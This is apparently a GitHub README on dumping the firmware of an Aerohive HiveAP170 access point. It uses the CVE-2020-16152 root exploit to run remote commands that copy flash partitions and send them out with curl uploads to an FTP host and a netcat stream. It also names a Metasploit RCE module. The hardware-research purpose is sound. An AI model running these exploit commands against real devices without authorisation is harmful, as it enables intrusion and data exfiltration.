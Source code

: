 # HiveAP170
Investigating the AP170 from Aerohive

|Mainboard|UART|
|:-:|:-:|
|![Mainboard](https://github.com/richard718/HiveAP170/assets/86638482/da3ce224-a6a7-4c31-b824-fc965f420ab2)|![UART](https://github.com/richard718/HiveAP170/assets/86638482/0c062f73-9b0c-4715-9315-7670588971c1)|

# What Firmware extraction options are there :-

+ ~~JTAG~~ not identified.
+ ~~Extract via UART as ascii text~~[^1].
+ ~~tftpput from U-BOOT~~ unsupported in this firmware.
+ ~~Metasploit~~[^2].
+ CVE.

The original exploit code is published at [CVE-2020-16152](https://github.com/eriknl/CVE-2020-16152) and enables root access.

## Extracting the Firmware

download CVE-2020-16152.py

Inital attempts to use the exploit were unsuccessful, changed https to http in CVE-2020-16152.py.

get the list of block devices.

```bash
./CVE-2020-16152.py AP170.internal 'cat /proc/mtd' > mtd.txt 
```

|dev:|size|erasesize|name|
|-|-|-|-|
|mtd0:|02a00000|00040000|"App Image"|
|mtd1:|00f00000|00040000|"JFFS2"|
|mtd2:|00500000|00040000|"Kernel Image"|
|mtd3:|00080000|00040000|"Reserved"|
|mtd4:|00040000|00040000|"Static Boot Info Backup"|
|mtd5:|00040000|00040000|"Static Boot Info"|
|mtd6:|00040000|00040000|"Hardware Info"|
|mtd7:|00040000|00040000|"Uboot Env"|
|mtd8:|00080000|00040000|"Uboot"|

extract and transfer each image.

```bash
./CVE-2020-16152.py AP170.internal 'dd if=/dev/mtdx of=/f/mtdx.bin' 
./CVE-2020-16152.py AP170.internal 'curl -T /f/mtdx.bin ftp://ftphost.internal/mtdx.bin'
./CVE-2020-16152.py AP170.internal 'rm /f/mtdx.bin'
```
writing mtd0 and mtd1 to `/f` resulted in corruption, copying to `/tmp` worked for mtd1 but not mtd0 it is too big for `/tmp`.

```bash
# copy mtd1 to /tmp
./CVE-2020-16152.py AP170.internal 'dd if=/dev/mtd1 of=/tmp/mtd1.bin' 
./CVE-2020-16152.py AP170.internal 'curl -T /tmp/mtd1.bin ftp://ftphost.internal/mtd1.bin'
./CVE-2020-16152.py AP170.internal 'rm /tmp/mtd1.bin'
```

```bash
# have to netcat it
# Sender
./CVE-2020-16152.py AP170.internal 'nc ftphost.internal 1234 < /dev/mtd0'
# Receiver 
nc -l 1234 > mtd0.bin
```

# What other useful detail can be pulled out ...

[UBoot Commands](extracted_details/uboot.log)\
[Busybox Commands](extracted_details/busybox.log)\
[Root FS listing](extracted_details/root_fs.log)

[^1]: Although dumping as ascii hex and converting back to binary is possible it is time consuming and prone to error.  
[^2]: search aerohive; info exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce  